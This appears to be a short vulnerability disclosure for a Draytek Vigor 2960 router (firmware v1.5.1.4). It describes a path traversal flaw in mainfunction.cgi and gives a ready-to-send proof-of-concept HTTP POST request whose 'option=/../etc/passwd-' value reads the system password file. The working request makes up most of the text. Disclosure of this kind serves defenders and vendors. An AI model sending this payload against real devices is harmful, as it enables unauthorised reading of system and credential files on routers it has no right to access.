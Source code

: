 # Draytek vigor 2960 v1.5.1.4 has arbitrary file read vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.
4.zip

## Detail  

The vulnerability is in the file `mainfunction.cgi`, function `sub_1DF14`

It doesn’t filter the var `option`, so we can use `/../`to read arbitrary file.

![image-20230218203912092](images/image-20230218203912092.png)

## poc 

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxxxxxxx
Content-Length: 61
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: xxxxxxxx
Referer: xxxxxxxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close

action=doCfgExport&option=/../etc/passwd-&rtick=1663484341535
```



![image-20230218203937963](images/image-20230218203937963.png)